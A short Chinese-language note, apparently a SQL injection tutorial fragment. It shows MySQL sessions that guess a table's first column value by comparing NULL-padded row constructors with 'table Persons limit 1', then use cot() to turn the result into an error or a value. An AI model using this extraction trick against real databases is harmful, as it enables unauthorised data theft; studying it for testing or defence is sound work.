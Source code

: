 ```sql
mysql> select 0 or (2,null,null,null,null)<(table Persons limit 1);
+------------------------------------------------------+
| 0 or (2,null,null,null,null)<(table Persons limit 1) |
+------------------------------------------------------+
|                                                    0 |
+------------------------------------------------------+
1 row in set (0.00 sec)
 
mysql> select 0 or (1,null,null,null,null)<(table Persons limit 1);
+------------------------------------------------------+
| 0 or (1,null,null,null,null)<(table Persons limit 1) |
+------------------------------------------------------+
|                                                 NULL |
+------------------------------------------------------+
1 row in set (0.00 sec)
 
mysql> select 0 or (0,null,null,null,null)<(table Persons limit 1);
+------------------------------------------------------+
| 0 or (0,null,null,null,null)<(table Persons limit 1) |
+------------------------------------------------------+
|                                                    1 |
+------------------------------------------------------+
1 row in set (0.00 sec)
 
mysql> select 0 or (-1,null,null,null,null)<(table Persons limit 1);
+-------------------------------------------------------+
| 0 or (-1,null,null,null,null)<(table Persons limit 1) |
+-------------------------------------------------------+
|                                                     1 |
+-------------------------------------------------------+
1 row in set (0.00 sec)
```

当回显null的时候刚好是1，这样可以知道Persons第一列的值是1

要是嫌麻烦，直接外面加cot()扁平化处理（加一些用于条件判断的，mysql上多试试就有）

```sql
mysql> select cot((2,null,null,null,null)<(table Persons limit 1));
ERROR 1690 (22003): DOUBLE value is out of range in 'cot(((2,NULL,NULL,NULL,NULL) < (select `my_dbThai`.`Persons`.`Id_P`,`my_dbThai`.`Persons`.`LastName`,`my_dbThai`.`Persons`.`FirstName`,`my_dbThai`.`Persons`.`Address`,`my_dbThai`.`Persons`.`City` from `my_dbThai`.`Persons` limit 1)))'
mysql> select cot((1,null,null,null,null)<(table Persons limit 1));
+------------------------------------------------------+
| cot((1,null,null,null,null)<(table Persons limit 1)) |
+------------------------------------------------------+
|                                                 NULL |
+------------------------------------------------------+
1 row in set (0.00 sec)
 
mysql> select cot((0,null,null,null,null)<(table Persons limit 1));
+------------------------------------------------------+
| cot((0,null,null,null,null)<(table Persons limit 1)) |
+------------------------------------------------------+
|                                   0.6420926159343306 |
+------------------------------------------------------+
1 row in set (0.00 sec)
 
mysql> select cot((null,null,null,null,null)<(table Persons limit 1));
+---------------------------------------------------------+
| cot((null,null,null,null,null)<(table Persons limit 1)) |
+---------------------------------------------------------+
|                                                    NULL |
+---------------------------------------------------------+
```